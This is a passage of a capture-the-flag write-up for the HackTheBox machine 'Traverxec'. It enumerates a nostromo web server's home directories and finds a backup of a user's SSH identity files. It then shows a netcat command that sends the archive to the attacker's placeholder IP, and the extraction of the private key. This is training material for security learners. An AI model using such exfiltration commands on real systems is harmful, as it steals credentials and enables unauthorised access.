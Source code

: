``` bash 
htpasswd    /var/nostromo/conf/.htpasswd
# ALIASES [OPTIONAL]
/icons         /var/nostromo/icons
# HOMEDIRS [OPTIONAL]
homedirs    /home
homedirs_public      public_www
```

After some inspection, we can tell that there is two types of home directories, and one of them which is “public_www” refer to “Public Directory”. lets try and list the content of the “public_www” directory under David home directory (/home/david/public_www).

``` bash
www-data@traverxec:/$ ls -alh /home/david/public_www
ls -alh /home/david/public_www
total 16K
drwxr-xr-x 3 david david 4.0K Oct 25 15:45 .
drwx--x--x 5 david david 4.0K Oct 25 17:02 ..
-rw-r--r-- 1 david david  402 Oct 25 15:45 index.html
drwxr-xr-x 2 david david 4.0K Oct 25 17:02 protected-file-area
```

There is an interesting directory called “protected-file-area”, lets see what we have there.
``` bash
www-data@traverxec:/$ ls /home/david/public_www/protected-file-area
ls /home/david/public_www/protected-file-area
backup-ssh-identity-files.tgz
```

We found a compressed file called “backup-ssh-identity-files.tgz”, which is definitely a file that we want gets our hands on it. We need to send the file to our machine since we can not uncompressing the file inside the box.


We will send it via Netcat. In the box use the command:

``` bash
nc <Your IP> <port> < backup-ssh-identity-files.tgz //in the Box
nc -l -p <port> > backup-ssh-identity-files.tgz //in your machine

```

<img src="https://raw.githubusercontent.com/00x71/00x71.github.io/master/_posts/images/Traverxec/3.png" style="display: block; margin: auto;" />

``` bash
root@kali:~/Desktop/HackTheBox/Traverxec# tar xvzf backup-ssh-identity-files.tgz
home/david/.ssh/
home/david/.ssh/authorized_keys
home/david/.ssh/id_rsa
home/david/.ssh/id_rsa.pub
```
